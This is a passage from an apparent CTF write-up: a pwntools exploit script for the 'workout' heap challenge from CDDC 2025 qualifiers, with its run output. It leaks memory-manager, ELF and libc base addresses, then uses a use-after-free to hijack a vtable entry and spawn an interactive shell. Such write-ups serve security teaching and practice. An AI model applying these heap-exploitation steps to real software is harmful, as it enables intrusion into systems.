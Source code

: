 ```py
new_exercise(b"aaaaaa\x01")
view_routine_details(1)
ru(b"aaaaa")
memorymanager_base = unpack(rl().strip(), "all") - 1
print(f"memory manager base @ {hex(memorymanager_base)}")

# leak elf base via vtable ptr

delete_exercise(0)
new_exercise(b"aaaaaa" + p64(memorymanager_base+0x60-0xa))
view_routine_details(1)

ru(b"[0] ")
elf.address = unpack(rl().strip(), "all")  - 0x1cae0
print(f"elf base @ {hex(elf.address)}")

# leak libc base via GOT

delete_exercise(0)
new_exercise(b"aaaaaa" + p64(elf.got.setvbuf-0xa))
view_routine_details(1)

ru(b"[0] ")
libc.address = unpack(rl().strip(), "all")  - libc.sym.setvbuf
print(f"libc base @ {hex(libc.address)}")

# now i want a UAF on the second part of a routine

delete_exercise(0)
new_exercise(b"aaaaaa" + p64(memorymanager_base+0x40))
delete_exercise(2)
new_exercise(b"A"*6 + p64(0x4242424242424242) + p8(0x1))
delete_exercise(2)
new_exercise(b"A"*6 + p64(memorymanager_base+0xa0-8)) # write vtable pointer
delete_exercise(3)
new_exercise(b"A"*6 + p64(libc.address + 965765) + p8(0x1)) # write vtable entry to be called
remove_exercise_to_routine(0, 1)

p.interactive()

"""
❯ python3 solve.py
[*] '/mnt/sdb/CTF/2025/CDDC/Quals/pwn/workout/workout'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Starting local process '/mnt/sdb/CTF/2025/CDDC/Quals/pwn/workout/workout': pid 275476
100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 255/255 [00:00<00:00, 678.38it/s]
memory manager base @ 0x7faed2d73000
elf base @ 0x55b3fcdc9000
libc base @ 0x7faed2780000
```